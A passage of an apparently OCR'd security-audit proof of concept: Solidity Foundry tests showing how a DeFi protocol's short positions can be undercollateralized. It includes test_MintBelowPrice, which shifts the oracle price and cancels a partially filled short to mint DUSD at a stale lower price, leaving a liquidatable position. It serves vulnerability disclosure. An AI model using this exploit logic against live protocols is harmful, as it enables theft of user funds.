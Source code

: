 ```solidity
    short = getShortRecord(sender, C.SHORT_STARTING_ID);
    assertEq(short.ercDebt, 2000 ether); // 2000 dusd minted
    assertEq(short.collateral, 0.01 ether + 0.7 * 2000 ether + ethInitial); // 70% of ETH collateral provided

    // The position is no longer liquidatable because the developer has improved
    // how to source more collateral if CR < initialCR in the createLimitShort().
    // However, we can still use the CR of 70% to calculate the collateral
    // whose value is less than the value of DUSD that gets minted.
}

// Credit:
//  - Original by: nonseodion
//  - Modified by: serial-coder
function test_MintBelowPrice() public { // PoC #2
    // Create a bid to match the short and change its state to SR.PartialFill
    fundLimitBidOpt(1 ether, 0.01 ether, receiver);

    // Create the short providing 500% of the dusd to be minted
    // Current initialCR is 500%
    uint88 price = 1 ether;
    depositEth(sender, price.mulU88(5000 ether).mulU88(5 ether));
    uint16[] memory shortHintArray = setShortHintArray();
    MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, uint80(price), 5000 ether, orderHintArray, shortHintArray, 500);

    STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
    assertTrue(short.status == SR.PartialFill); // CR is partially filled by bid

    // Set the new price to 1.5 ether so that price increase
    uint256 newPrice = 1.5 ether;
    skip(15 minutes);
    ethAggregator.setRoundData(
        92233720368547778907 wei, int(newPrice.inv()) / ORACLE_DECIMALS, block.timestamp, block.timestamp, 92233720368547778907 wei
    );
    fundLimitBidOpt(1 ether, 0.01 ether, receiver);
    assertApproxEqAbs(diamond.getProtocolAssetPrice(asset), newPrice, 15000000150);

    // Cancel the short to mint at 1 ether instead of 1.5 ether
    vm.prank(sender);
    cancelShort(101);

    short = getShortRecord(sender, C.SHORT_STARTING_ID);
    assertEq(short.ercDebt, 2000 ether); // 2000 dusd minted
    // 2000 dusd minted for 10000 ether (500% at price of 1 ether)
    // instead of 15000 ether (500% at price of 1.5 ether)
    assertEq(short.collateral, 0.01 ether + 5*2000 ether);

    // Position is liquidatable
    assertGt( diamond.getAssetNormalizedStruct(asset).liquidationCR, short.collateral.div(short.ercDebt.mul(1.5 ether)));
}
```





